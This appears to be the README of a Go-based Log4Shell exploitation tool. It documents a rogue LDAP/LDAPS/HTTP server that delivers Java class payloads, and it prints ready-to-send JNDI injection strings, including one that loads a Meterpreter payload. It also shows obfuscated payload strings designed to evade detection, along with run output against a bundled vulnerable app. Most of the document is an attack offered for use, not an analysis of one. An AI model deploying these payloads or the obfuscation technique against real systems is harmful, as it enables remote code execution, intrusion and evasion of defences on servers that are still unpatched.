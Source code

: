 # Log4Shell
 * Check, exploit, obfuscate, TLS, ACME about log4j2 vulnerability in one Go program. 
 * Support common operating systems, not need install any dependency.
 * Don't need to install anything except you want to develop this project.

## Feature
 * Only one program and easy deployment
 * Support multi Java class files
 * Support LDAPS and HTTPS server
 * Support ACME to sign certificate
 * Support obfuscate malicious(payload)
 * Hide malicious(payload) string
 * Add secret to protect HTTP server
 * Add token to fix repeat execute payload

## Usage
 ### Start Log4Shell server
   * ```Log4Shell.exe -host "1.1.1.1"```
   * ```Log4Shell.exe -host "example.com"```
 
 ### Start Log4Shell server with TLS
   * ```Log4Shell.exe -host "example.com" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"```
   * ```Log4Shell.exe -host "1.1.1.1" -tls-server -tls-cert "cert.pem" -tls-key "key.pem"``` (need IP SANs)

 ### Start Log4Shell server with ACME
   * ```Log4Shell.exe -host "example.com" -auto-cert``` (must use domain name)

 ### Obfuscate malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://1.1.1.1:3890/Calc}"
   ```
   ```
   raw: ${jndi:ldap://1.1.1.1:3890/Calc$cz3z]Y_pWxAoLPWh}

   ${zrch-Q(NGyN-yLkV:-}${j${sm:Eq9QDZ8-xEv54:-ndi}${GLX-MZK13n78y:GW2pQ:-:l}${ckX:2@BH[)]Tmw:a(:-
   da}${W(d:KSR)ky3:bv78UX2R-5MV:-p:/}/1.${)U:W9y=N:-}${i9yX1[:Z[Ve2=IkT=Z-96:-1.1}${[W*W:w@q.tjyo
   @-vL7thi26dIeB-HxjP:-.1}:38${Mh:n341x.Xl2L-8rHEeTW*=-lTNkvo:-90/}${sx3-9GTRv:-Cal}c$c${HR-ewA.m
   Q:g6@jJ:-z}3z${uY)u:7S2)P4ihH:M_S8fanL@AeX-PrW:-]}${S5D4[:qXhUBruo-QMr$1Bd-.=BmV:-}${_wjS:BIY0s
   :-Y_}p${SBKv-d9$5:-}Wx${Im:ajtV:-}AoL${=6wx-_HRvJK:-P}W${cR.1-lt3$R6R]x7-LomGH90)gAZ:NmYJx:-}h}

   Each string can only be used once, or wait 20 seconds.
   ```
   ```
   When obfuscate malicious(payload) string, log4j2 package will repeat execute it, the number
   of repetitions is equal the number of occurrences about string "${". The LDAP server add a
   simple token mechanism for prevent it. 
   ```
   
  ### Hide malicious(payload) string
   ```
   Log4Shell.exe -obf "${jndi:ldap://127.0.0.1:3890/Calc}" -add-dollar
   ```
   ```
   raw: ${jndi:ldap://127.0.0.1:3890/Calc$YG=.z[.od7rH0XpE}
   ```
   ```
   Execute VulApp:
   
   E:\OneDrive\Projects\Golang\GitHub\Log4Shell\vulapp\jar>D:\Java\jdk1.8.0_121\bin\java -jar 
   vulapp.jar ${j${0395i1-WV[nM-Pv:-nd}i${KoxnAt-KVA6T4:Xggnr:-}:${vlt0_:xTI:-}${kMe=A:QD3FK:
   -l}d${SaS-TmMt:-a}${uQH-oRFIXtw-4[:-}p:${XL9-bkp9k]-xz:-//}12${D@-rF@wGm:-7.0}.${Fuc:SCV6B
   m:-}${W1eelS:1jnUDknTJS:*7aHahf2m:vK:-0.1}${ft:4Zbf5Hf1G:Tskg:-:3}${6WH[wc:Fencc:-8}${24Y:
   5h=5SqK-p(X9:-9}${oYCk6-RDIN5a$Od:U]3iOEVv:7MiEj:-0/C}${NzvB:]6T9$_O9-F.IUl-NnZq:-a}lc$YG=
   ${*E-5M:-.z[}${N_9@-6(l0sy-b(6.6t-y7NC*:-}${0i-4eS4kB:-.}${5WnL-LKTO554q-x[d:-od7}rH0$${oC
   :.XYPyzv6-sPH.]*Ls:$@Q:-XpE}}
   ${j${0395i1-WV[nM-Pv:-nd}i${KoxnAt-KVA6T4:Xggnr:-}:${vlt0_:xTI:-}${kMe=A:QD3FK:-l}d${SaS-T
   mMt:-a}${uQH-oRFIXtw-4[:-}p:${XL9-bkp9k]-xz:-//}12${D@-rF@wGm:-7.0}.${Fuc:SCV6Bm:-}${W1eel
   S:1jnUDknTJS:*7aHahf2m:vK:-0.1}${ft:4Zbf5Hf1G:Tskg:-:3}${6WH[wc:Fencc:-8}${24Y:5h=5SqK-p(X
   9:-9}${oYCk6-RDIN5a$Od:U]3iOEVv:7MiEj:-0/C}${NzvB:]6T9$_O9-F.IUl-NnZq:-a}lc$YG=${*E-5M:-.z
   [}${N_9@-6(l0sy-b(6.6t-y7NC*:-}${0i-4eS4kB:-.}${5WnL-LKTO554q-x[d:-od7}rH0$${oC:.XYPyzv6-s
   PH.]*Ls:$@Q:-XpE}}
   15:49:14.676 [main] ERROR log4j - XpE}

   E:\OneDrive\Projects\Golang\GitHub\Log4Shell\vulapp\jar>
   ```
   ```
   The Logger will only record a part of raw string "15:49:14.676 [main] ERROR log4j - XpE}",
   and repeat execute will not appear(I don't know why this happened).
   ```

## Check
 * start Log4Shell server
 * send ```${jndi:ldap://1.1.1.1:3890/Nop}```
 * send ```${jndi:ldaps://example.com:3890/Nop}``` with TLS

## Exploit
 * start Log4Shell server
 * put your class file to the payload directory
 * send ```${jndi:ldap://1.1.1.1:3890/Meterpreter}```
 * send ```${jndi:ldaps://example.com:3890/Meterpreter}``` with TLS
 * meterpreter will open source after some time

## VulApp
 * VulApp is a vulnerable Java program that use log4j2 package.
 * You can use it for develop this project easily.
 * ```java -jar vulapp.jar ${jndi:ldap://127.0.0.1:3890/Calc}```

## Help
  ```
  :::      ::::::::   ::::::::      :::     ::::::::  :::    ::: :::::::::: :::      :::
  :+:     :+:    :+: :+:    :+:    :+:     :+:    :+: :+:    :+: :+:        :+:      :+:
  +:+     +:+    +:+ +:+          +:+ +:+  +:+        +:+    +:+ +:+        +:+      +:+
  +#+     +#+    +:+ :#:         +#+  +:+  +#++:++#++ +#++:++#++ +#++:++#   +#+      +#+
  +#+     +#+    +#+ +#+   +#+# +#+#+#+#+#+       +#+ +#+    +#+ +#+        +#+      +#+
  #+#     #+#    #+# #+#    #+#       #+#  #+#    #+# #+#    #+# #+#        #+#      #+#
  ######## ########   ########        ###   ########  ###    ### ########## ######## ########

                                                        https://github.com/For-ACGN/Log4Shell

Usage of Log4Shell.exe:
  -add-dollar
        add one dollar to the obfuscated string
  -auto-cert
        use ACME client to sign certificate automatically
  -host string
        server IP address or domain name (default "127.0.0.1")
  -http-addr string
        http server address (default ":8080")
  -http-net string
        http server network (default "tcp")
  -ldap-addr string
        ldap server address (default ":3890")
  -ldap-net string
        ldap server network (default "tcp")
  -no-token
        not add random token when use obfuscate
  -obf string
        obfuscate malicious(payload) string
  -payload string
        payload(java class) directory (default "payload")
  -tls-cert string
        tls certificate file path (default "cert.pem")
  -tls-key string
        tls private key file path (default "key.pem")
  -tls-server
        enable ldaps and https server
  ```

## Screenshot
![](https://github.com/For-ACGN/Log4Shell/raw/main/screenshot.png)
